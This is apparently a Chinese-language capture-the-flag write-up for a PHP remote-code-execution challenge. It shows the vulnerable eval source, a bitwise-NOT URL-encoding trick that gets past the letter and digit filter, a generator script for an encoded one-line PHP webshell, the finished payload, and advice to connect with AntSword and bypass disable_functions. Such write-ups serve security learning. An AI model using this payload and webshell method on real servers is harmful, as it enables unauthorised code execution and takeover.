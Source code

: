 ```yaml
---
Author: SuperJason
Date: 2020-1-7
---
```


## flag
`flag{7d72d4e0-55f5-41c0-8e78-e02eab0679f9}`

## 思路

1. 打开页面，分析源码，所有字母和数字被过滤。
```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```
2. 采用~对cmd按位取反，以phpinfo为例。
- `php -r "echo urlencode(~'phpinfo');"`得到`%8F%97%8F%96%91%99%90`
  ![](images/jk-rce-1.png)
3. 对一句话木马取反url编码，取反代码如下。用AntSword连接载荷`code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%8C%97%9A%93%93%DD%A2%D6%D6);`
```php
<?php
$a='(eval($_POST["shell"]))';# eval($_POST["shell"]) also OK
echo urlencode(~$a);
echo "\n";
$b="assert";
echo urlencode(~$b);
?>
```
4. /flag文件没有flag，执行/readflag，得到flag。
   ![](images/jk-rce-2.png)

## 总结
在CMD字符被过滤时，可以用~取反urlencode绕过限制。用AntSword连接一句话木马时，可以用插件市场bypass插件bypass disable_functions